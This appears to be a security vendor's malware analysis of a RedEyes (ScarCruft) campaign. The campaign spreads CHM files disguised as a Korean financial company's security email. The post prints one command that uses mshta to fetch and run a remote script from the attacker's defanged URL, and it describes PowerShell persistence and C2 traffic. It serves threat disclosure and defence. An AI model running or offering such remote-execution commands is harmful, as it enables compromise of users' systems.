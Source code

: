 
















 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By gygy0101  , March 9, 2023 

CHM Malware Disguised as Security Email from a Korean Financial Company: Redeyes (Scarcruft) 
ASEC (AhnLab Security Emergency response Center) analysis team has discovered that the CHM malware, which is assumed to have been created by the RedEyes threat group (also known as APT37, ScarCruft), is being distributed to Korean users. The team has confirmed that the command used in the “2.3. Persistence” stage of the RedEyes group’s M2RAT malware attack, which was reported back in February, has the same format as the command used in this attack. This information, as well as the details of the CHM malware’s operation process, is described in the following post.
HWP Malware Using the Steganography Technique: RedEyes (ScarCruft)

When the CHM file is executed, it displays a Help screen disguised as a security email from a Korean financial company. The malicious script that exists within the CHM is activated during this process, making it difficult for users to notice. There has been a recent increase in malware distribution using CHM.
Help screen disguised as a security email
The malicious script that’s executed is shown below, and, like the other CHM malware introduced in the past, it also uses a shortcut object (ShortCut). The shortcut object is called through the Click method, and the command under the Item1 entry is executed. This file executes an additional script that exists within a certain URL through the mshta process.

Executed Command
mshta.exe hxxp://shacc[.]kr/skin/product/1.html

Malicious script within CHM
The “1.html” file executed through the mshta process contains a JS (JavaScript) code. This code is responsible for executing the encoded PowerShell commands. The PowerShell command executed here has a similar format as the command used during the aforementioned M2RAT attack process.
1.html file code
Process tree
An examination of the decoded PowerShell command revealed that everything aside from the C2 address, the file name under which the command execution results are saved, and the registry value, has the same code as the command used back in February. This command is responsible for registering the RUN key to establish persistence, receiving commands from the threat actor’s server, and transmitting the command execution results.
